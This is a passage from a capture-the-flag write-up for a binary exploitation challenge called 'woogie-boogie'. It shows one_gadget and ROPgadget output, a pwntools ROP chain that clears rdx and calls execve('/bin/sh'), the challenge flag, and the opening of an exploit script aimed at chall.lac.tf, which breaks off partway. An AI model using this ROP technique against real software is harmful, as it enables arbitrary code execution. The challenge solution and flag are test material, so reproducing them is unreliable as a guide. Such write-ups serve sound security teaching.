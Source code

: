 ```
...
0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL
...
```

`r15`is already NULL, but this isn't true for `rdx` which stores the count for `read()`. Still this is promising and we only need to find a one gadget that allows clearing `rdx`.

clear rdx

```bash
ROPgadget --binary libc.so.6 | grep "ret$" | grep "sub rdx"
...
0x00000000000ce383 : sub rdx, rax ; jbe 0xce3c0 ; add rax, rdi ; ret
```

Luckily we find this gadget , this is especially useful, because `rax` stores the number of bytes read using `read()`so we only need to ensure that we `read()` the same number of bytes as specified count so 0x10 (which we do anyway).

```python
rce = flat(
  LIBC + 0xce383, # clear rdx
  LIBC + 0xe3b01 # one_gadget
)

it() # or t.interactive()
```

an we spawn a shell (might require a few tries, avg. 8)

Flag: `lactf{l1ne_buff3r1ng_1s_s0_us3ful!!}`

### Exploit

```python
#!/usr/bin/env python
from pwn import *

GDB_OFF = 0x555555554000
IP = 'chall.lac.tf'
PORT = 31166
BINARY = './woogie-boogie'
ARGS = []
ENV = {}

GDB = f"""
set follow-fork-mode parent

# atol done
# b * readint+0x3d

# call swap
# b * main+0xbb 

# b swap

# *b = *a ^ *b
b * swap+0x3d

# swap ret 
# b * swap+0x5a

# main ret
```